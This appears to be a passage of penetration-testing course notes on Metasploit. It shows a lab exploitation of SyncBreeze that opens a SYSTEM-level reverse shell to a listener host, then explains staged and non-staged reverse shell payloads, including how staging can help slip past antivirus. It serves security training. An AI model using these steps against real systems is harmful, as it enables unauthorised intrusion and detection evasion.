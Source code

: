  Note that this checkwill only work if the target application exposes some sort of banner or other identifiable data.
 
 msf5 exploit(windows/http/syncbreeze_bof) > check
[*] 10.11.0.22:80 - The target appears to be vulnerable

 
 With confirmation that the target is vulnerable, all that remains now is to run the exploit using theexploit command as displayed below.
 
 msf5 exploit(windows/http/syncbreeze_bof) > exploit
[*] Started reverse TCP handler on 10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] Command shell session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50195)
Microsoft Windows [Version 10.0.16299.248]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
whoami
nt authority\system

 
22.2.1.1 Exercise


1. Exploit SyncBreeze using the existing Metasploit module.
22.3 Metasploit Payloads
22.3.1 Staged vs Non-Staged Payloads

22.3.1 Staged vs Non-Staged Payloads

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/6.jpg)

windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)


 The difference between these payloads is subtle but important. 

 A non-staged payload is sent in its entirety along with the exploit. 

 In contrast, a staged payload is usually sent in two parts.

 The firstpart contains a small primary payload that causes the victim machine to connect back to the attacker, transfer a larger secondary payload containing the rest of the shellcode, and then execute it.
 
 There are several situations in which we would prefer to use staged shellcode instead of nonstaged.
 
 If the vulnerability we are exploiting does not have enough buffer space to hold a fullpayload, a staged payload might be suitable.
 
 Since the first part of a staged payload is typically smaller than a full payload, these smaller initial payloads can likely help us in space-constrained situations.
 
 In addition, we need to keep in mind that antivirus software will quite often detectembedded shellcode in an exploit.
 
 By replacing that code with a staged payload, we remove a goodchunk of the malicious part of the shellcode, which may increase our chances of success.
 